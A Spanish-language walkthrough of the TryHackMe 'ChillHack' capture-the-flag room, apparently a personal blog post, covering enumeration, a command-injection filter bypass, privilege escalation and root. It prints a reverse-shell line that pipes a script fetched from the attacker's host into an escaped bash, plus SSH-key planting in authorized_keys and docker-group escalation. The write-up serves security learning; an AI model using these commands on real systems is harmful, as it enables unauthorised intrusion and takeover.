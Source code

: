 ```yaml
---
title: ChillHack
layout: post
post-image: "../assets/images/Rooms/ChillHack/chillhack.png"
description: Easy level CTF. Capture the flags and have fun!
difficulty: Fácil
enlace: https://tryhackme.com/r/room/chillhack
tags:
- Enumeración
- Web
- Reverse shell
- Privilege Escalation
---
```


Primero de todo, vamos a realizar un escaneo de los puertos de la dirección ip de la máquina víctima:
<div style="text-align: left;">
  <table>
    <tr>
      <td>
      </td>
      <td>
      </td>
      <td>
      </td>
    </tr>
  </table>
</div>
![[image 1.png]]
![[image 2.png]]
Vemos que tiene abierto los puertos **21** (conexión servicio FTP), **22** (conexión servicio SSH) y **80** (página web no encriptada "http").

Primero, vamos a iniciar una conexión anónima en el servidor *FTP*, debido a que permite dicho tipos de conexiones:
![[image 3.png]]
Vemos que al iniciar sesión, y realizar un listado de los archivos encontramos un fichero **note.txt** que podemos descargar en nuestra máquina mediante el comando `get`.
![[image 4.png]]
Vemos que el fichero contiene dos usuarios **Anurodh** y **Apaar**.
Como aquí no podemos seguir haciendo nada, vamos a ver que encontramos la página web:
![[image 5.png]]
Como de costumbre, no encontramos nada a simple vista, por lo que vamos a realizar *fuzzing web* con `gobuster`:
![[image 6.png]]
Encontramos un directorio oculto, llamado `/secret` que si accedemos a él encontramos un campo donde podemos ejecutar código, por lo que estamos ante un *RCE*:
![[image 7.png]]
Si ejecutamos un comando más interesante como puede ser `cat /etc/passwd` obtenemos como resultado:
![[image 8.png]]
Podemos interceptar la petición del CRE mediante *burpsuite*, donde podemos enviar los comandos pero intentando bypassear la "protección", por ejemplo:
![[image 9.png]]
Hemos hecho un bypass del comando `ls -la` escapando la s, por lo que podemos llevarlo a la práctica con otros comandos:

![[image 10_1.png]]

![[image 10_2.png]]
Vemos que si escapamos el comando `cat /index.php` encontramos los comandos que no se pueden ejecutar de manera normal.
Por lo que, podemos intentar ejecutar una *reverse shell* desde la página web:
![[image 12.png]]
Ahora, en la web vamos a ejecutar el comando:
```bash
curl http://ip_nuestra/nombre_shell | ba\sh 
```
para poder obtener la *reverse shell* y seguido ejecutarla escapando el comando `bash`.

--- start-multi-column: ID_gb15
```column-settings
Number of Columns: 2
Largest Column: standard
```

![[image 13.png]]

Como resultado, tenemos que al escuchar y ejecutar la shell, estamos dentro del servidor.

--- column-break ---

![[image 14.png]]

--- end-multi-column
Ahora dentro, podemos intentar escalar privilegios. Por lo que podemos hacer uso del comando -> `sudo -l` para obtener los comandos que puede ejecutar como root el usuario *www-data*.
![[image 15.png]]

En efecto, vemos que el comando `/home/apaaar/.helpline.sh` pueden ejecutarlos todos los usuarios del sistema.
Como es un script escrito en **bash** podemos ver su contenido:
![[image 16.png]]

Y vemos que lo que realiza es una interacción, donde nos pide un nombre y un mensaje.
![[image 17.png]]

Si ejecutamos el comando especificando el usuario `-u apaar` y en el mensaje escribimos `/bin/bash` (ejecución de una terminal), esta se ejecutará como **apaar** (ya que hemos especificado su usuario).

Tratamiento de la tty (para poder tener una CLI más amigable):

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
(ctrl + Z)
stty raw -echo;fg
stty rows 29 columns 126
export TERM=screen
```

Procedemos a buscar la flag y la tenemos.
![[image 18.png]]

Ahora, para seguir continuando con el CTF, vamos a realizar una escalada de privilegios pero ahora a root, para poder conseguir así la última flag.
Podemos realizar una búsqueda de binarios (spoiler, no va a servir de nada).

Ya que estamos dentro del servidor podemos echarle un ojo a los puertos que tiene abierto y vemos que tiene en escucha uno muy raro -> `127.0.0.1:9001`.
![[image 19.png]]
![[image 23.png]]
Encontramos un panel de login, que puede cuadrar con el servicio *SSH* que hay corriendo por el puerto 22, por lo que podemos buscar el **id_rsa** del usuario **apaar** para poder iniciar sesión.

Pero primero, vamos a volver a hacer *fuzzing web* a esta web:
![[image 27.png]]
y vemos que tenemos un directorio llamado `/images`, si accedemos a él encontramos dos archivos, el que nos interesa es el '.jpg'.
![[image 28.png]]
```bash
wget hacker-with-laptop_23-2147985341.jpg
```
Como tenemos una imagen con extensión '.jpg' podemos hacer uso de `steghide` para poder encontrar información oculta en la imagen:
![[image 29.png]]
Y esto no da un archivo llamado 'backup.zip', el cual si queremos descomprimir nos pedirá una contraseña, la cual podemos intentar romper con un ataque de fuerza bruta, con `fcrackzip`:
![[image 30.png]]
Tenemos la contraseña del '.zip', vamos a abrirlo:
```bash
unzip backup.zip
nano source_code.php
```
![[image 31.png]]
Encontramos la contraseña del otro usuario **Anurodh**, la cual está encriptada en base64, la desencriptamos y nos la guardamos:
```bash
echo -e "contraseña_base64" | base64 -d
```

Y ahora si, vamos a proceder a obtener las claves *id_rsa* del usuario **apaar**, para ello vamos al directorio donde estas se almacenan:
```bash
cd /home/apaar/.shh
```
![[image 20.png]]
Vemos que no tenemos el **id_rsa** como tal, si no que tenemos un fichero llamado 'authorized_key' que son las claves permitidas y autorizadas para poder realizar la conexión vía *SSH*.
Pero nosotros podemos crear una clave e introducirla en dicho fichero ya que tenemos permisos de escritura en el mismo.
![[image 21.png]]

Con `ssh-keygen` podemos crear una clave para el usuario **apaar** y tenemos tanto el **id_rsa** (apaar) como el **id_rsa.pub** (apaar.pub).

A continuación, guardamos *apaar.pub* en el fichero 'authorized_keys' y apaar en un archivo *id_rsa* en nuestra máquina y podremos realizar nuestro inicio de sesión vía *SSH*.
![[image 22.png]]
Ahora que estamos dentro y previamente obtuvimos la contraseña del usuario **Anurodh**, mediante el comando `su Anurodh` y su contraseña nos convertiremos en dicho usuario:
![[image 33.png]]
![[image 34.png]]
Con el comando `id` vemos información acerca del usuario actual y vemos que pertenece al grupo **docker**, es decir, tiene permisos para poder ejecutar comandos Docker y puede acceder al *daemon* Docker.

Podemos buscar en [GTFObins/Docker](https://gtfobins.github.io/gtfobins/docker/#shell) un exploit para escalar privilegios y en efecto, hemos escalado privilegios, ergo somos usuarios root.
![[image 35.png]]
Hemos obtenido la root flag, por lo que hemos terminado el CTF.
___
